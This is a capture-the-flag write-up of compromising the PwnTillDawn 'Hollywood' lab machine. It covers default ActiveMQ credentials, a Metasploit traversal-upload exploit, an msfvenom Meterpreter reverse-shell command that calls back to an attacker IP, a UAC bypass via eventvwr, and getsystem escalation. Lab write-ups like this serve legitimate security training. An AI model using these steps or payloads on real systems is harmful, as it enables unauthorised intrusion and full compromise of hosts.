 ```yaml
---
title: Hollywood Writeup PwnTillDawn
author: r0b0tG4nG
date: 2021-11-27 01:33:00 +0000
categories: [Blogging, PwnTillDawn]
tags: [writeups, tomcat, activemq, msfconsole]
math: true
mermaid: true
---
```


![image](https://user-images.githubusercontent.com/67085453/143771170-b81a10a3-ee70-4748-9d22-a333f4934b5f.png)<br>

**> Information Gathering**<br>
The Default nmap scan showed many active ports on the target. We can see some major ports like `21 (ftp), 25 (smtp), 80 (http), 110 (pop3) 445 (smb), 8080 (tomcat) & 8161 (activemq)`. <br>

`xampp` was found running on the default port 80, directory bruteforcing this page did not yield any results.<br>
![image](https://user-images.githubusercontent.com/67085453/143771194-f7c03df2-0b7d-423d-b38b-0274a88dbb23.png)<br> 

Apache tomcat was setup on port 8080 with `host-manager` login disallowed and the default tomcat credentials did not work on `manager app`. <br>
![image](https://user-images.githubusercontent.com/67085453/143771198-a5910e2c-4eb6-4ea6-8df5-d4113b33f42e.png)<br>

Digging deeper on port 8161, we found apache activemq running.<br>
![image](https://user-images.githubusercontent.com/67085453/143771202-66596cba-e76d-4bfd-a775-823b50e39e77.png)<br>

The first thing i always do is to try the default login creds on webapps. I tried to login with the default username and password `admin:admin` on activemq just like we did on tomcat.<br>
![image](https://user-images.githubusercontent.com/67085453/143771208-19a45234-1010-4920-9086-18e4e135cb26.png)<br>

Luckily for us, the default `admin:admin` worked and we logged in succesfully.<br>
![image](https://user-images.githubusercontent.com/67085453/143771218-f4d9d7bf-0fb8-4199-90b9-0281d43289bc.png)<br>

On the admin dashboard, the version of activemq running on the taret is `5.11.1`. We performed a quick google to find any known exploit.<br>
![image](https://user-images.githubusercontent.com/67085453/143771230-8430ca4d-2bf9-45d1-bb9e-bbbe5a968b57.png)<br>

We found a approved exploit from <a href="https://www.rapid7.com/db/modules/exploit/windows/http/apache_activemq_traversal_upload/">rapid7</a>. <br>
![image](https://user-images.githubusercontent.com/67085453/143771368-bc57ac26-72a0-4f4e-b982-31ca164bcce7.png)<br>

Load this module into `msfconsole` using `use windows/http/apache_activemq_traversal_upload`, setup the required module options for this exploit. `RHOST`, `RPORT`, `USERNAME`, `PASSWORD` & `LHOST`. Without these module options setup, the exploit will fail to execute.<br>
![image](https://user-images.githubusercontent.com/67085453/143771382-28b2af4e-35e5-4a15-8943-320554dfcb98.png)<br>

All module options set?? then launch an attack using either `run` or `exploit` command in `msfconsole`. If successful, we should spawn a shell on the target.<br>
![image](https://user-images.githubusercontent.com/67085453/143771399-c81cb79d-42f1-4581-92fb-5e861807d80f.png)<br>

**> Post Exploitation**<br>

Winpeas and other tools did not provide me with any good information. So i decided to create a staged payload using `msfvenom`. To create a payload, use this `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.66.66.78 LPORT=4444 -f exe -o test.exe`<br>
![image](https://user-images.githubusercontent.com/67085453/143771410-6614f216-ceec-4ae4-9e1e-58a4c030113a.png)<br>

Then transfered this to the target, setup another msfconsole listerner then executed the `test.exe` on the target.<br>
![image](https://user-images.githubusercontent.com/67085453/143771419-56228f2b-f9e5-4c66-8e57-70a71dc04142.png)<br>

We should have another session in the new `msfconsole` listerner. Lets background this session using the command `bg` or `background`. Load `msfconsole` post exploitation module by typing `use post/multi/recon/local_exploot_suggester`. Once the the module is loaded, set the session to your current session using `set session (session number)` and type run.<br>
![image](https://user-images.githubusercontent.com/67085453/143771432-c57fcd1c-60ce-43ea-b241-89537af6b48a.png)<br>

After waiting for sometime for the results of the post module, we realized we could bypass `User Account Control` to become `NT AUTHORITY\SYSTEM`. To do this, we need to load the module `exploit/windows/local/bypassuac_eventvwr`, set `session` and `lhost` then execute the exploit again using either `run` or `exploit`.<br>
![image](https://user-images.githubusercontent.com/67085453/143771442-baefc788-52c1-4ed2-81e5-76ffe38ea966.png)<br>

This module will bypass` Windows UAC` by hijacking a special key in the `Registry` under the current user hive, and inserting a custom command that will get invoked when the `Windows Event Viewer` is launched. We have successfuly hijacked `C:\Windows\System32\eventvwr.exe` on the target But we are still not administrator. So we will use the `getsystem` command. This comand will use a number of different techniques in attempt to gain SYSTEM level privileges on the target<br>
![image](https://user-images.githubusercontent.com/67085453/143771472-beff3526-d40a-4072-badd-7653a1c0e897.png)<br>

The technique worked and we are `NT AUTHORITY\SYSTEM` through the `Named Pipe Impersonation` technique. We have fully compromised this target.<br>
![image](https://user-images.githubusercontent.com/67085453/143771478-9e61baa0-5704-416a-8d9f-bb14ee0c0963.png)<br>


Referrence: <a href="https://online.pwntilldawn.com/">PwnTillDawn Online battlefield</a>

